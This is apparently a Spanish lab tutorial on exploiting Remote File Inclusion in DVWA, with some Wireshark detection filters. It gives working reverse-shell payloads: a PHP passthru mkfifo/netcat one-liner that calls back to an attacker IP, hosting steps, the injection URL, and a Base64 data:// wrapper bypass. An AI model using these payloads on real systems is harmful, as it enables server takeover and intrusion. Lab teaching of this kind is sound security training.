 La Inclusión de Archivos Remotos (RFI) es una versión de la Inclusión de Archivos Locales (LFI) que extiende su alcance. En RFI, un atacante logra hacer que la aplicación web, que se está ejecutando en el servidor, establezca una conexión con un servidor externo para cargar e incluir un archivo de este, en lugar de usar un archivo que ya esté en el propio servidor como sucede con LFI.

![](capturas/lfi-vs-rfi.png)


En cuanto a las dificultades asociadas con el envenenamiento de registros (log poisoning) al explotar LFI:
- La cuenta bajo la cual se ejecuta la aplicación web en el servidor necesita tener los derechos suficientes para leer los archivos de registro (logs) que el atacante desea manipular.
- Es necesario descubrir una forma de insertar código dañino en esos archivos de registro locales, lo cual podría lograrse mediante acciones como enviar ciertas cabeceras HTTP o generar errores intencionadamente.

Si fuera posible incluir archivos alojados en un servidor controlado por el atacante o en otra ubicación bajo su control, estas limitaciones se eliminarían, lo que haría mucho más sencilla la ejecución de código malicioso.

La vulnerabilidad de RFI surge principalmente por dos razones:
- La falta de una limpieza adecuada de las entradas proporcionadas por el usuario, lo que permite la introducción de URLs externas.
- Una configuración insegura o por defecto tanto en el servidor web como en las aplicaciones, que admite este tipo de inclusión de archivos. Un ejemplo claro de esto es tener habilitada la opción allow_url_include en la configuración de PHP, que permite la inclusión de archivos de fuentes externas.

Lenguajes susceptibles a estos ataques: PHP, ASP, JSP, Python...

Con un ataque RFI se puede conseguir:
- Defacement de Sitios Web: El "defacement" se refiere a la alteración visual de un sitio web, donde el contenido original se reemplaza con contenido creado por el atacante. Esto suele hacerse por motivos de vandalismo, para promover una agenda política o social, o simplemente para demostrar la vulnerabilidad del sitio. Con un ataque RFI, un atacante puede incluir un archivo remoto que contenga HTML, JavaScript u otro código que cambie la apariencia del sitio web o muestre un mensaje específico del atacante. Dado que el archivo está siendo incluido y ejecutado por el servidor web como parte de la página web, el contenido del archivo remoto se renderizará en el navegador del usuario, efectivamente cambiando la apariencia del sitio.

- Ejecución Remota de Comandos: Aún más peligroso es la capacidad de ejecutar comandos de forma remota en el servidor web a través de un ataque RFI. Esto puede lograrse si el atacante logra incluir un script PHP (o cualquier otro lenguaje de servidor que se esté ejecutando) desde un servidor remoto que el servidor web víctima ejecutará como suyo. Este script puede contener código que ejecute comandos en el servidor, lo que podría permitir al atacante tomar el control total del servidor web, acceder a bases de datos sensibles, modificar archivos del sistema, instalar malware, crear backdoors para acceso futuro, entre otras acciones maliciosas. La ejecución remota de comandos abre la puerta a una amplia gama de actividades perjudiciales que pueden comprometer la seguridad y la funcionalidad del servidor y de los datos alojados en él.


### En la máquina atacante
Para obtner la shell reversa, usaremos netcat tanto en el atacante (kali) como en la víctima (ubuntu):
- En la máquina atacante (Kali), iniciamos Netcat en modo escucha especificando un puerto:
  ```
  nc -lnvp 9000
  ```
  ![](capturas/remote-file-inclusion.png)


- Creamos un documento que contendrá el fichero que deberá ejecutar la máquina víctima para lanzar la shell reversa:
  ```
  mkdir /tmp/files
  cd /tmp/files
  nano reverse.txt
  
  <?php
        passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
  ?>  
  ```
  La función passthru ejecutará el comando que recibe como argumento. Este comando crea un canal de comunicación bidireccional entre la máquina víctima y la atacante, usando un archivo FIFO en /tmp/f. Primero, elimina /tmp/f si existe y luego crea un FIFO con mkfifo. Utiliza cat para leer este FIFO y pasa la salida a sh -i, creando una shell interactiva que redirige tanto la entrada estándar como la salida estándar y el error estándar a través de Netcat hacia la dirección IP 192.168.1.103 en el puerto 9000. Finalmente, la salida de Netcat se redirige de nuevo al FIFO, completando el circuito para la comunicación bidireccional. Los datos circulan a través de la conexión con la máquina atacante en la ip 192.168.1.103 y el puerto 9000, y la máquina vulnerable por medio del fichero FIFO.

- En el atacante arrancamos un servidor web:
  ```
  python3 -m http.server 80
  ```
  ![](capturas/remote-file-inclusion-2.png)
  ![](capturas/remote-file-inclusion-3.png)


### En la máquina víctima
Utilizamos la URL en la que conseguimos hacer LFI:
```
/DVWA/vulnerabilities/fi/?page=http://192.168.1.103/reverse.txt
```
![](capturas/remote-file-inclusion-4.png)

### En la máquina atacante
Vemos que se ha conseguido finalizar la shell reversa:
![](capturas/remote-file-inclusion-5.png)


## Viendo el ataque con Wireshark
![](capturas/remote-file-inclusion-6.png)
![](capturas/remote-file-inclusion-7.png)
![](capturas/remote-file-inclusion-8.png)

-----------------------------------------------------------
Otro detalle de otra secuencia:

![](capturas/remote-file-inclusion-9.png)


**Filtros wireshark para descubrir RFI:**
```
http || tcp.port == 80 || tcp.port == 443
(http.request or tls.handshake.type eq 1) and !(ssdp)
http.request.method == "POST"
http.request.method == "GET"
```

---------------------------------------------

# RFI en DVWA Nivel Medio
En el nivel medio vemos por el código que hace una validación de las entradas, impidiendo que se escriba http: ó https:
```
Medium File Inclusion Source
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

Para poder ejecutar la shell reversa ahora funcionará:
-  no podemos hacer una request "page=http://192.168.1.103/reverse.txt" ya que la convierte en "page=192.168.1.103/reverse.txt", lo que provoca que no funcione el RFI.
- Haciendo bypass del tipo: %68%74%74%70%3A%2F%2F --> http://

Para saltar esta restricción necesitaremos usar wrappers de php. Un ejemplo sencillo para ver cómo funciona la técnica es:
```
Código php --> <?php phpinfo(); ?>
Codificación de ese código en Base64 --> PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data:application/x-httpd-php;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```

Mi código para realizar varias acciones en el servidor que incluyen eliminar un archivo, crear un FIFO (named pipe), escuchar comandos a través de este pipe, y reenviar la salida a una conexión Netcat abierta, lo que me permite obtener una shell interactiva.:
```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f"); ?>
```

El código PHP codificado en Base64 es:
```
PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Para usar este código en un ataque de RFI mediante el wrapper data://, insertaremos la cadena codificada en Base64 en la URL de la siguiente manera:
```
?data://text/plain;base64,PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Sin embargo, al probarlo en DVWA no funciona, devuelve un error:
![]()
